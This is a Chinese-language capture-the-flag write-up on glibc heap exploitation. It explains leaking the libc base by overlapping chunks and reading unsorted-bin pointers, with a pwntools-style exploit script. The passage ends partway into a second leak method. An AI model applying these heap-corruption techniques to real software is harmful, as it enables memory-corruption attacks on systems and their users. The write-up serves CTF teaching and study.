 基本想法就是：

1. leak出libc地址
2. 劫持控制流

### leak libc

free的chunk加入unsorted bin后它的fd/bk会指向main_arena中的一个地址，我们就利用这个来leak libc地址。

怎么拿到free后chunk中的地址呢？

第一个想法是扩展当前chunk大小，让其与后一个chunk出现重叠，后一个free进unsorted bin后dump出当前chunk中的内容来leak libc。具体原理如下：

先分配4个空间，大小分别是chunk_0 = 0x10、 chunk_1 = 0x40、 chunk_2 = 0x80、 chunk_3 = 0x10。

```text
+--------+--------+--------+--------+
|chunk_0 |chunk_1 |chunk_2 |chunk_3 |
|0x10    |0x40    |0x80    |0x10    |
+--------+--------+--------+--------+
```

其中chunk_0和chunk_3大小随意；chunk_2满足free后它能进入unsorted bin；chunk_1保证扩展后free时能加入fastbin，其实大小可以随意的，只是按照我一贯节俭的作风保证其后面attack时也能利用。

我们用chunk_0更改chunk_1的大小，让chunk_1的空间将chunk_2的pre size、size、fd、bk包含在内，也就是向后扩展0x20 byte，因为free chunk_1时会检测next size，所以还要在chunk_2中设置一下。

将chunk_1 free掉，重新以0x60的大小calloc回来。此时chunk_2的head已经被破坏掉了。fill chunk_1恢复chunk_2的head。

free掉chunk_2，此时chunk_2加入了unsorted bin。dump出chunk_1，除掉最后一个'\n'后最后8 byte就是我们想要的地址了，减去偏移就是libc_base。

```python
alloc(0x10) # 0
alloc(0x40) # 1
alloc(0x80) # 2
alloc(0x10) # 3

fill(0, 'a'*0x10 + p64(0) + p64(0x71))
fill(2, 'b'*0x10 + p64(0) + p64(0x71))

free(1)
alloc(0x60) # 1
fill(1, 'c'*0x40 + p64(0) + p64(0x91))

free(2)
libc_base = u64(dump(1)[-9:-1]) - 0x3c4b78
log.info('libc base = ' + hex(libc_base))
pause()
```

leak libc还有另外一种方法思路：

让两个chunk指向同一个地址，其中一个free进unsorted bin，dump出另外一个里面的内容。具体原理如下：

先分配一堆地址，chunk_0 = chunk_1 = chunk_2 = chunk_3 = chunk_5 = 0x10、chunk_4 = 0x80。

```text
+--------+--------+--------+--------+--------+--------+
|chunk_0 |chunk_1 |chunk_2 |chunk_3 |chunk_4 |chunk_5 |
|0x10    |0x10    |0x10    |0x10    |0x80    |0x10    |
+--------+--------+--------+--------+--------+--------+
```
